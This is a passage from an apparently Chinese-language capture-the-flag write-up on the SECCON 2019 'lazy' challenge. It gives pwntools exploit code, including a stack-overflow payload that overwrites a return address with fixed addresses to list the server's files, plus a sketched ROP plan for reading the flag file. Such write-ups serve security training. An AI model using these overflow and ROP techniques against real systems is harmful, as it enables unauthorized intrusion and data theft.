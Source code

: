 登陆后多了个4，进4可以下载更多文件

```python
r.sendline('4')
r.sendline('lazy')
r.recvuntil('bytes')
a = r.recvall()
log.info(a)
f = open('lazy','w')
f.write(a)
```

libc.so.6无法下载，先下载lazy，checksec发现开了canary，但是在username溢出时没有影响

现在已经可以控制程序流程，如何获得libc

LibcSearcher，libcdatabase没用，必须在程序中下载

很白给，但是记录一下走的弯路

![3](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/3.jpg)

跳过chdir，直接到call listing，可以打一波文件名，但是无法下载

```python
r.sendline('2')
payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(0x401517)+p64(0x40104E)
r.sendline(payload)
r.sendline('3XPL01717')
r.interactive()
```

```
run.sh
lazy
ld.so
cat
.profile
libc.so.6
810a0afb2c69f8864ee65f0bdca999d7_FLAG
.bashrc
q
.bash_logout
```

看到flag了，不考虑libc，尝试直接读flag

调read把flag文件名写到0x602000，然后调用open打开flag，跳到public中call open下方

有pop rdi ret和pop rsi pop r15 ret，没rdx，但是问题不大

测试发现因为flag文件名过长，read完选2直接崩

可以输入libc.so.6，但是并不能下载



继续尝试下载libc
